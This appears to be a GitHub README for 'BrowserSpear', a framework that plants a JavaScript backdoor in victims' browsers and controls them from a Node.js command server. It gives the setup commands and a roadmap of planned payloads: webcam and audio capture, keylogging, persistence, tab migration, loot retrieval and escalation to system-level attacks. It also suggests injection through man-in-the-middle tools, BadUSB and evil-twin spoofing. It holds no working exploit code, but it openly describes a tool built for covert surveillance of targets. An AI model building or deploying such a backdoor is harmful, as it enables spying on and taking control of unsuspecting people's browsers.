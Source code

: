 # BrowserSpear
A framework for exploiting browsers by injecting Javascript to a web-based backdoor

# Aim of the project
- After a backdoor is injected in the browser (spear.html) the backdoor will try a websocket first and otherwise poll with GET requests. If a GET request succeeds but no websocket is possible (browser incompatible, proxy, filter, ... ) it will communicate in both ways with respectivly GET and reponse-headers.
- When a connection is available to a host it can be send Javascript-code to be executed on the machine
- Clients will be identified from the server with a couple commands and a database will be kept in a plain file
- The interface will be combined with the server (nodejs for async events). If the server is already running, make a connection to the existing server through HTTP requests or a websocket to have the same level of access
- Commands will only be accepted if comming from localhost
- The interface is a metasploit-like commnand-based system to list victims and send commands (custom or prepared payloads)
- Examples of payloads: webcam stream, audio record, keylogger, persistance, ... (check BeEF for inspiration)
- SSL protected connection with loadable cert (Future)

# Dependencies
- Nodejs (install with package-manager)
<pre>apt-get install nodejs</pre>
- Websockets (nodejs-library: https://www.npmjs.com/package/websocket) easiest installed with npm (see below)
- Prompt (nodejs-library: https://www.npmjs.com/package/prompt) easiest installed with npm (see below)
- Commander (nodejs-library: https://www.npmjs.com/package/commander) easiest installed with npm (see below)
<pre>apt-get install npm && npm install websockets prompt uglify-js commander --global</pre> 

# Usage
- To start the command server, use the following command:
<pre>node backend_server.js</pre>

- To test, inject the backdoor as a MitM, serve the file yourself or open http://IP-or-URL-server>:1337/ in a browser

- Commands can be send by typing them in the backend_server.js-interface or doing a HTTP-call:
<pre>curl 'http://localhost:1337/exec?alert("muahahahaha")'</pre>

# TODO & Roadmap
- if necessairy ask to clean port (if something is running on it, maybe pinpoint it) (maybe make bash script starter that checks this?)
- settings and options passed to modules and saved in a way for handler
- (DONE) For testing, if the servers root is requested, return the spear.html file
- (DONE) backdoor must be built to only provide the URL to connect to if it was not already set. so that the url can be changed by adding an extra script-segment with "var socket = new WebSocket('ws://wereiwanttogo.com:1337')"
- interface should take a file to execute (list of commands), 2nd also for when a client connects, also a command on interface to to the same'
- catch tab for completion
- (DONE) a new connection should be fingerprinted 
- ... and merged with the connection object and also logged to a local file with a history of commands.
- Module system with javascript-scripts in files that are parsed into onliners (maybe minified) and then send. Only knowledge is for returning data with socket.send() and developing a way to also have modules for server-side (retrieval of loot) (Idea: support "file"-tag and "stream-tag" and "data"-tag)
- input should be able to be corrected and navigated by the arrow keys without creating escape characters (https://scotch.io/tutorials/build-an-interactive-command-line-application-with-nodejs)
- interface with more layers to list and send commands specific to victim
- GET call to server (from local) to generate payload (newest version) with specified URL to be directed to
- Help command in interface should explain how iframe can be use for the injection of spear.html by tool like bettercap (for example)
- look for persistance options in same manner as poisontab, Also try migration to other tabs
- Penetration to system-level attacks
- History of commands (up and down arrow key) -> prompt library
- Guide with modules, builtup and options for loot retrieval
- modules (attacks) moest be able to run async in sessions (also multiple clients)
- handler option in modules?
- fingerprint maybe module,too heavy,  just only a number?
- Autoreconnect by spear.html

# Examples how to inject
TODO
- bettercap, badusb, mitm by spoofing evil twin (link articles)

# Credits
- Samy Kamkar for the inspiration through the Poisontab project and the code that provides the low-level base of the project.
